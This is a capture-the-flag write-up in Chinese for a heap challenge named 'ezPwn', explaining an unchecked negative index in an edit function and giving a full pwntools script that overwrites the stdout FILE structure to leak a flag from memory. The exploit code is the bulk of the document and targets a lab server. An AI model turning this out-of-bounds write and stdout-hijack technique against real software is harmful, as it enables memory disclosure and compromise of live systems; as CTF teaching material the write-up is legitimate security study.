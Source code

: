 ## 解题思路

程序从一开始就读入了flag文件并放在bss中，还给了程序基址。后面就是菜单堆题。

`edit`函数没有对`idx`做校验，可以像初赛一样改`stdout`结构体。访问`datas[-20]`修改`stdout`结构体，
此时`sizes[-20]`恰好是`(int)datas[6]`，因此分配7个堆块后就可以构造一个很大的数字。但是，
对于ubuntu，`read`的size不能超过`SIZE_MAX`，这取决于上述值的最高位，因此有50%概率导致read失败。
如果能成功read，把`stdout`的`_flags`设置成`0xfbad1800`，`_IO_write_base`设置成`&flag`，
`_IO_write_ptr`和`_IO_write_end`设置为`flag+0x30`。在函数`edit`返回，打印菜单时，
触发流刷新，同时打印出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './ezPwn'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.1.101.102', 9999)
    
    def toint(v: int) -> bytes:
        return str(v).encode().ljust(8, b'\0')

    def add(size: int, data: bytes):
        sh.sendafter(b'delete', toint(1))
        sh.sendafter(b'size', toint(size))
        sh.sendafter(b'data', data)
    
    def edit(idx: int, data: bytes):
        sh.sendafter(b'delete', toint(2))
        sh.sendafter(b'index', toint(idx))
        sh.sendafter(b'data', data)

    pieBase = int(sh.recvuntil(b'\n1.add', True)[-14:], 16) - 0x1a44
    success(GOLD_TEXT(f"Leak pieBase: {pieBase:#x}"))
    flagAddr = pieBase + 0x4060

    add(0x400, b'chunk 0')
    add(0x400, b'chunk 1')
    add(0x400, b'chunk 2')
    add(0x400, b'chunk 3')
    add(0x400, b'chunk 4')
    add(0x400, b'chunk 5')
    add(0x400, b'chunk 6')
    edit(-20, flat({
        0:      0xfbad1800, # _flags hack the stdout!
        0x20:   flagAddr,   # _IO_write_base
        0x28:   flagAddr + 0x30, # _IO_write_ptr
        0x30:   flagAddr + 0x30, # _IO_write_ptr
        }, filler=b'\0'))

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
```